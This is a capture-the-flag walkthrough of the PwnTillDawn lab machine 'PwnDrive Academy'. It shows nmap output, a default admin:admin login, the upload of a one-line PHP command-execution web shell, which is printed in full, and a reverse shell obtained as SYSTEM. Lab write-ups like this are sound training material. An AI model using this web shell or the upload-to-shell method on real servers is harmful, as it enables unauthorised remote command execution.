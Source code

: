### PwnDrive Academy PwntillDawn

### IP Address = 10.150.150.11

### Difficulty = Easy

### OS = windows
Hi guys,
<br> Will be walking you through a pwntilldawn easy box "pwndriveacademy"
<br> Let's begin the hacks :) .

## NMAP SCAN:

```

┌──(venus㉿AL13N)-[~]
└─$ nmap -A -T5 10.150.150.11                         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-03 22:17 WAT
Warning: 10.150.150.11 giving up on port because retransmission cap hit (2).

** (atril:3324): WARNING **: 22:19:20.176: Error setting file metadata: No such file or directory
Nmap scan report for 10.150.150.11
Host is up (0.19s latency).
Not shown: 980 closed tcp ports (conn-refused)
PORT      STATE    SERVICE            VERSION
21/tcp    open     ftp                Xlight ftpd 3.9
80/tcp    open     http               Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
306/tcp   filtered unknown
443/tcp   open     ssl/http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
445/tcp   open     microsoft-ds       Windows Server 2008 R2 Enterprise 7601 Service Pack 1 microsoft-ds
1110/tcp  filtered nfsd-status
1433/tcp  open     ms-sql-s           Microsoft SQL Server 2012 11.00.2100.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-08-24T13:11:13
|_Not valid after:  2050-08-24T13:11:13
|_ssl-date: 2023-06-03T22:06:39+00:00; +46m37s from scanner time.
| ms-sql-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|_  Product_Version: 6.1.7601
3306/tcp  open     mysql              MySQL 5.5.5-10.4.14-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.14-MariaDB
|   Thread ID: 1053
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolOld, LongColumnFlag, Support41Auth, SupportsTransactions, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, SupportsCompression, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: jDU_\3&cCbDmy9MYU}9B
|_  Auth Plugin Name: mysql_native_password
3371/tcp  filtered satvid-datalnk
3389/tcp  open     ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=PwnDrive
| Not valid before: 2023-06-02T18:08:29
|_Not valid after:  2023-12-02T18:08:29
|_ssl-date: 2023-06-03T22:06:37+00:00; +46m37s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|   Product_Version: 6.1.7601
|_  System_Time: 2023-06-03T22:06:29+00:00
5631/tcp  filtered pcanywheredata
8042/tcp  filtered fs-agent
49152/tcp open     msrpc              Microsoft Windows RPC
49153/tcp open     msrpc              Microsoft Windows RPC
49154/tcp open     msrpc              Microsoft Windows RPC
49155/tcp open     msrpc              Microsoft Windows RPC
49156/tcp open     msrpc              Microsoft Windows RPC
49157/tcp open     msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.150.150.11:1433: 
|     Version: 
|       name: Microsoft SQL Server 2012 RTM
|       number: 11.00.2100.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Enterprise 7601 Service Pack 1 (Windows Server 2008 R2 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: PwnDrive
|   NetBIOS computer name: PWNDRIVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-03T15:06:29-07:00
|_clock-skew: mean: 1h46m37s, deviation: 2h38m45s, median: 46m36s
| smb2-time: 
|   date: 2023-06-03T22:06:29
|_  start_date: 2020-08-24T13:11:20
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: PWNDRIVE, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:89:87:cb (VMware)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.34 seconds

```

From the scan it shows the box is running on a windows OS

<br> so, enumerating port 21 (ftp) gives nothing. 

<br> Then moving on to the next port which's port 80(http)

<br> we can see that there's nothing intresting on the page except the *signin* functionality

<br> so, let's try to signin using default credentials **admin:admin** 

![2023-06-03_22-45](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/af1826b2-aa06-4337-b2d7-55d26d90e0ca)

boom we are in the admin's panel.

<br> AS you can see there is an upload functionality,let's try to upload a shell (NB: the server is running php. Php web shell should work)

![succ_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1d05b3a7-0383-459d-afa3-97d66d5b38f2)
wow our shell has been uploaded successfully.
~~~
the shell
<?php system($_GET['cmd']); ?>
~~~
so, let's find our uploaded shell by bruteforcing for directories using ffuf
![finding_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/0f28f198-8eb0-433f-8000-c84fb1178698)
Good we found it ;)

Now lets's gain  reverse shell via our uploaded webshell
![revrsjpg](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a68e92f2-b193-41dc-958b-0f0b2f1ea797)
i used a powershell reverse shell from [revshells](https://revshells.com/) .
<br> Then start netcat listener and press F5 to refresh the page.
![done](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8c23decd-9d37-41df-834a-846a6ea9a815)

BOOM!!  sweet reverse shell ;)

luckily we got the shell as system , escalating privilege isn't required.

DONE!!

*Till another day 999 to the world*

